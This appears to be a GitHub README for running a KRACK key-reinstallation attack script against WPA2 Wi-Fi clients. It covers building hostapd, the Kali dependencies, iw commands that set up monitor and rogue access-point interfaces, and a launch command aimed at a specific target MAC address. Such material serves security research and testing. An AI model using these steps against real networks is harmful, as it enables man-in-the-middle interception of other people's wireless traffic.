 This script is currently not actively supported. The documentation is also not complete.

Before running this script, you must compile hostapd. This only needs to be done once:

	  cd ../hostapd
	  cp defconfig .config
	  make -j 2
	  cd ../
	  ./build.sh

Then you can exece this script. See [our video](https://youtu.be/Oh4WURZoR98?t=47) for example commands.

## Prerequisties
intall the following dependencies on Kali Linux:
 ```
$sudo apt update
$sudo apt install libnl-3-dev libnl-genl-3-dev macchanger pkg-config libssl-dev net-tools git sysfsutils pip
```
install the following python package:
```
pip install --user mitm_channel_based
pip install scapy==2.4.3
pip install pycryptodome
```
## Description
```
KRAckAttack(args.nic_real_mon, args.nic_rogue_ap, args.nic_rogue_mon, args.ssid, args.target, args.dump, args.continuous_csa)
```
- nic_real_mon: nic_real, nic_real_clientack
- nic_rogue_ap: nic_rogue_ap
- nic_rogue_mon: nic_rogue_mon

krack-all-zero-tk.py KRAckAttack class confiure_interfaces()
define wifi interfaces !
1. iw <nic_real> set type monitor
2. <nic_real_clientack> = <nic_real> + sta1
3. iw <nic_real> interface add <nic_real_clientack> type managed

4. (沒特別指定的話) <nic_rogue_mon> = <nic_rogue_ap> + mon
5. iw <nic_rogue_ap> interface add <nic_rogue_mon> type monitor
6. iw <nic_rogue_mon> set type monitor

- nic_real_mon : MERCUSYS MW300UM
- nic_rogue_ap : TP-Link TL-WN722N V2
- nic_rogue_mon: TP-Link AC600

```
python3 ./krack-all-zero-tk.py <nic_real_mon> <nic_rogue_ap> testnetwork --nic-rogue-mon <nic_rogue_mon> --target 60:45:cb:01:ce:4c
```